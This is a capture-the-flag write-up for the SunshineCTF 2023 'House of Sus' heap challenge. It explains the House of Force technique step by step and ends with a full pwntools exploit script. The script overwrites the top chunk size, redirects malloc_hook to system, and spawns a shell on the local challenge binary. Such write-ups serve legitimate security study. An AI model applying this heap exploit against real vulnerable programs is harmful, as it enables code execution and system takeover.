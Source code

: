 ## Level: Easy

**TLDR:** create a chunk and overwrite the wilderness with a very large number due to an overflow. This will overlap the target address and resulting in write-what-where, which you can use it to overwrite malloc_hook with system to get a shell.  
  
### Checksec

![checksec](https://github.com/user-attachments/assets/b1f5f164-7791-4db8-80d0-da2e3aeca2af)

### Challenge
  
![menu](https://github.com/user-attachments/assets/24c5f22c-227d-488b-9446-7efe84d7e67e)

Very cool menu :D
We have a heap and a libc leak (option 2).

Also there is an overflow in option 3 so we can create a chunk then overwrite the wilderness (the top chunk's size) with a very large number (e.g. -1). This will make sure that malloc won't use `mmap` for any further allocations because it will think the top chunk has always *enough* space. And this will result in overlapping target address (write-what-where). 

### Approach 

```
1 - Use the overflow in `[3] Call an emergency meeting` to overwrite the wilderness with a very large number.
```

![newwilderness](https://github.com/user-attachments/assets/47fb63ae-68a5-46e8-b76c-bf89da5d1922)

```
2 - Calculate the address of wilderness and the target from the leaks
3 - Allocate a chunk with size of target - top_addr - 0x10 # for metadata
```

![overlapsize](https://github.com/user-attachments/assets/2cb9e4e7-8221-4398-a75d-f3bbffa74f19)


```
4 - Overwrite malloc_hook pointer (the target address) with system
```

![systemoverwrite](https://github.com/user-attachments/assets/f5518ba2-59f8-4808-99ed-6df30c7f0f5e)

```
5 - Call malloc with the address of "/bin/sh" as size to get a shell
```

![flag](https://github.com/user-attachments/assets/bc4a5ea9-72a6-487b-88b8-03b28a7dc0ef)


Calculating the offset for distance was quite painful until I get the hang of it. As always, following sources helped me understand this **House of Force** technique and eventually solve the challenge:

House of force: https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#house-of-force

More about the house: https://book.hacktricks.xyz/binary-exploitation/libc-heap/house-of-force

c0nrad's writeup: https://youtu.be/qA6ajf7qZtQ?t=2277

offical(i guess) write up: https://github.com/SunshineCTF/SunshineCTF-2023-Public/blob/main/Pwn/House_of_Sus/house_of_sus_exp.py

get the challenge from: https://github.com/SunshineCTF/SunshineCTF-2023-Public/tree/main/Pwn/House_of_Sus

Thank you to all of them and the author for this cool challenge!

### Full Exploit
```python
#!/usr/bin/env python

from pwn import *
import time
"""
p = gdb.debug("./house_of_sus_patched", gdbscript='''
    c
''')
"""
p = process("./house_of_sus_patched")

def emergency_meeting(size, response, imposter):
    p.sendline(b"3")
    p.recvuntil(b"tasks >:(\n\n")
    p.sendline(str(size).encode('utf-8'))
    time.sleep(0.5)
    p.sendline(response)
    
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))

def do_task():
    p.sendline(b"1")

def report_body(imposter):
    p.sendline(b"2")
    p.recvuntil(b"the seed: ")
    libc_leak = int(p.recvline().strip())
    print("LIBC LEAK:" + hex(libc_leak))
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))
    return libc_leak

p.recvuntil(b"joining game: ")

heap_leak = int(p.recvline().strip(), 16)
print("HEAP LEAK: " + hex(heap_leak))

# libc leak thanks to seed in report_body option
p.recvuntil(b"emergency meeting\n\n")
libc_leak = report_body(1)

libc_base = libc_leak - 279440
malloc_hook = libc_base + 4111408
system = libc_base + 324640
binsh = libc_base + 1785224

print("malloc_hook: " + hex(malloc_hook))
print("binsh: " + hex(binsh))

# overwrite the wilderness with "-1"
# so it will overlap the target on the next malloc 
payload = b"A" * 40
payload += p64(0xFFFFFFFFFFFFFFFF)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(40, payload, 1)

# calculate where the top chunk size (the wilderness) is 
heap_addr = heap_leak + 88 + 4112

# calculate the distance for malloc_hook
# allocate a chunk with a size of to the distance for malloc_hook
distance = malloc_hook - heap_addr - 0x10  # 0x10 for the metadata 
payload = b"B" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(distance, payload, 1)

# overwrite malloc_hook pointer with system
payload = p64(system)
payload += b"C" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(30, payload, 1)

# call malloc with "/bin/sh" in size
payload = b'whoami'
binsh = int(binsh)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(binsh, payload, 1)

p.interactive()
```
<p align="center">
[!Easy](https://media1.tenor.com/m/-POqhuRZuEUAAAAd/easy-mode-shinoa-shinoa.gif)
</p>
